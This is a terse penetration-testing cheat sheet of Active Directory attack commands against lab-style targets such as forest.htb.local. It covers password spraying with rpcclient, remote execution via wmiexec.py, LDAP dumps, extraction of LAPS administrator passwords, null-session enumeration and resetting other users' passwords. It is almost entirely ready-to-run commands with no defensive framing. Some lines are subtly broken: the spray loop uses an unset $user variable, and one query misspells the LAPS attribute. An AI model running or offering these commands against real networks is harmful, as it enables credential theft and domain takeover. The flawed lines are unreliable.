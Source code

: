 cat usernames.txt | while read line; do echo $line && rpcclient -U "$user%P@ssword" -c "getusername;quit" 10.10.10.10; done

or 

python wmiexec.py domain/username:Passw0rd!@10.10.10.10 -dc-ip 10.10.10.1

Ldap Enumeration:
ldapsearch -x -h 10.10.10.10 -s base namingcontexts 

ldapsearch -x -h forest.htb.local -s sub -b 'DC=HTB,DC=LOCAL' | tee ldap_dump.txt


Dumping passwords using LDAP:

ldapsearch -x -h forest.htb.local -b 'DC=HTB,DC=LOCAL' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd

ldapsearch -x -h 10.10.10.254 -D <<username>> -w <<password>> -b "dc=AJLAB,dc=COM" "(ms-MCS-AdmPwd=*)" ms-MSC-AdmPwd

Domain Enumeration with RPcclient
#Enum using Null Session
rpcclient -U "" 10.10.10.10

#Login as a user
rpcclient -U USERNAME //10.10.10.10

#Find Users in the domain 
rpcclient -Uuser_Name%PASSWORD -c enumdomusers 10.10.10.10

#Find Domian Info
rpcclient -Uuser_Name%PASSWORD -c querydominfo  10.10.10.10

#Find Groups and their Alias
rpcclient -Uuser_Name%PASSWORD -c "enumalsgroups builtin" 10.10.10.10

#Find more info using Alias and note SIDs
rpcclient -Uuser_Name%PASSWORD -c "queryaliasmem builtin 0x244" 10.10.10.10

#Find more info using SIDs
rpcclient $> lookupsids S-1-5-21-586154515854-343543654-8743952433-1105 

#Reset other Users Password
rpcclient -U user1 //10.10.10.10
setuserinfo2 USER2 23 'PASSWORD'


Enum using RPCClient

rpcclient -U DOMAIN\\Username 10.10.10.10   #Enter pass 

enumdomusers     #Enumerate Domain Users 

enumprivs        #Enum Privileges

enumprinters    #Enum Printers

srvinfo         #Server info

enumalsgroups domain    #List the domain groups 

enumalsgroups builtin    #list builtin groups
